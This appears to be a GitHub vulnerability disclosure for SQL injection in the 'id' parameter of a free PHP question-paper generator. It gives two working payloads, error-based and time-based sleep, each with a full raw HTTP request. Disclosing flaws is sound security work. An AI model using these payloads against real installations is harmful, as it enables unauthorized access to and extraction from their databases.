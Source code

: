 # Automatic Question Paper Generator System v1.0 has SQL injection

BUG_Author:sixiaokai

Website source address:https://www.sourcecodester.com/php/15190/automatic-question-paper-generator-system-phpoop-free-source-code.html

Vulnerability File: /aqpg/users/classes/view_class.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1' and (select 5 from(select count(*),concat(0x71727374,(select (elt(233=233,1))),0x61626364,floor(rand(0)*2))x from information_schema.plugins group by x)a) and 'b'='b

```
GET /aqpg/users/classes/view_class.php?id=1%27%20and%20(select%205%20from(select%20count(*),concat(0x71727374,(select%20(elt(233=233,1))),0x61626364,floor(rand(0)*2))x%20from%20information_schema.plugins%20group%20by%20x)a)%20and%20%27b%27=%27b HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=v09icqq9rmfo32ghml3dote35g
Connection: close
```

Injection success based on errors

![image](https://github.com/si-xiao-kai/bug_report/blob/main/sql1.png)

Payload2:id=1' and (select 1 from (select(sleep(10)))a) AND 'b'='b

```
GET /aqpg/users/classes/view_class.php?id=1%27%20and%20(select%201%20from%20(select(sleep(10)))a)%20AND%20%27b%27=%27b HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=v09icqq9rmfo32ghml3dote35g
Connection: close
```

Server response time is 10 seconds

![image](https://github.com/si-xiao-kai/bug_report/blob/main/sql2.png)
